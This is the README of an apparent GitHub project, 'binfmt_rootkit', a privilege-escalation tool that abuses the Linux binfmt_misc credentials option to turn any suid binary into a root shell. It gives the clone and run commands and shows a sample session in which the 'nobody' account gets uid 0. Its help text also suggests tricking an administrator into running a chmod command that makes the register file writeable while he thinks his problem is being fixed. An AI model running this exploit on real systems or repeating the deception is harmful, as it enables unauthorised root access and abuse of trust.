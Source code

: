 
###########
binfmt_misc
###########

Kernel Support for miscellaneous (your favourite) exploits

No breakthrough here, just some trivia involving binary formats.

binfmt_rootkit
--------------

Poor man's rootkit, leverage `binfmt_misc`__'s credentials_ option to
escalate privilege through any suid binary (and to get a root shell) if
:literal:`/proc/sys/fs/binfmt_misc/register` is writeable.

__ https://github.com/torvalds/linux/raw/master/Documentation/admin-guide/binfmt-misc.rst
.. _credentials: https://github.com/torvalds/linux/blame/3bdb5971ffc6e87362787c770353eb3e54b7af30/Documentation/binfmt_misc.txt#L62


.. code:: bash

    $ git clone https://github.com/plcp/binfmt_misc
    $ cd binfmt_misc
    $ ./binfmt_rootkit --help
    Usage: ./binfmt_rootkit
        Gives you a root shell if /proc/sys/fs/binfmt_misc/register is writeable,
        note that it must be enforced by any other mean before your try this, for
        example by typing something like "sudo chmod +6 /*/*/f*/*/*r" while Dave
        is thinking that you are fixing his problem.


Cheap nobody to root is cheap:

.. code:: bash

    $ sudo -u nobody ./binfmt_rootkit 
    uid=0(root)
    sh-4.4#

Feel free to PR !
